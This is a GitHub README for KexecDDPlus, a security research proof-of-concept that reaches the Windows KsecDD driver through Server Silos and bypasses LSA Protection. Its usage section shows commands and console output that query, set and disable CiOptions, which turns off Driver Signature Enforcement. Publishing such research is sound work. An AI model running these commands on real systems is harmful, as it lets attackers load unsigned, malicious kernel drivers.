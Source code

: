 # KexecDDPlus

This proof-of-concept is the result of a research project that aimed at extending the work of [@floesen_](https://x.com/floesen_) on the KsecDD Windows driver.

It relies on Server Silos to access the KsecDD driver directly, without having to inject code into LSASS. This capability therefore allows it to operate even on systems on which LSA Protection is enabled.

**Tested on:**

- Windows 11 23H2 (OS Build 22631.4317)
- Windows 11 23H2 (OS Build 22631.3380)
- Windows 10 22H2 (OS Build 19045.5011)
- Windows 10 22H2 (OS Build 19045.4894)


## Disclaimer

> [!CAUTION]
> This PoC can only be executed **4 times**, before crashing the kernel!

Due to the way the IOCTL `IOCTL_KSEC_IPC_SET_FUNCTION_RETURN` is handled by the KsecDD driver, this PoC can only be used 4 times. At the 5th execution, the driver will attempt to free the user-supplied buffer as if it were allocated in a kernel pool. This operation is invalid, and therefore will cause a Bug Check, *a.k.a.* a Blue Screen. To run the exploit again, without crashing the kernel, a machine reboot will be required.

## Usage

```console
C:\Temp>KexecDDPlus.exe

 Usage:
     KexecDDPlus.exe <CMD> [<ARGS>]

 Query the CI options value:
     KexecDDPlus.exe queryci
 Set the CI options value to 0:
     KexecDDPlus.exe disableci
 Set the CI options value:
     KexecDDPlus.exe setci <VALUE>
```

**Query the CI options value**

```console
C:\Temp>KexecDDPlus.exe queryci
[+] Silo created and initialized (path is \Silos\764).
[+] Process forked (child pid is 2740).
[+] Connected to child process!
[+] Query CiOptions request OK, current value is: 0x00000006
All done.
```

**Disable Driver Signature Enforcement (DSE) - Set CI options to 0**

```console
C:\Temp>KexecDDPlus.exe disableci
[+] Silo created and initialized (path is \Silos\768).
[+] Process forked (child pid is 5396).
[+] Connected to child process!
[+] Disable CI request OK
All done.
```

**Set the value of CI options**

```console
C:\Temp>KexecDDPlus.exe setci 6
[+] Silo created and initialized (path is \Silos\772).
[+] Process forked (child pid is 9012).
[+] Connected to child process!
[+] Set CiOptions request OK
All done.
```

## Authors

- Clément Labro
    - Mastodon: [https://infosec.exchange/@itm4n](https://infosec.exchange/@itm4n)
    - GitHub: [https://github.com/itm4n](https://github.com/itm4n)
- Romain Melchiorre
    - Twitter/X: [https://x.com/PMa1n](https://x.com/PMa1n)
    - Mastodon: [https://infosec.exchange/@pmain](https://infosec.exchange/@pmain)
    - GitHub: [https://github.com/PMain](https://github.com/PMain)

## Credit

- [@floesen_](https://x.com/floesen_) - [KExecDD](https://github.com/floesen/KExecDD)
- Claudio Contin - [LSASS rings KsecDD ext. 0](https://tierzerosecurity.co.nz/2024/04/29/kexecdd.html)
- James Forshaw ([@tiraniddo](https://infosec.exchange/@tiraniddo)) - [NtObjectManager](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)
- Lucas Di Martino - [Reversing Windows Container, episode I: Silo](https://blog.quarkslab.com/reversing-windows-container-episode-i-silo.html)
- Lucas Di Martino - [Reversing Windows Container, episode II: Silo to Server Silo](https://blog.quarkslab.com/reversing-windows-container-part-ii-silo-to-server-silo.html)
- Axel Souchet ([@0vercl0k](https://twitter.com/0vercl0k)) - [rp++](https://github.com/0vercl0k/rp)
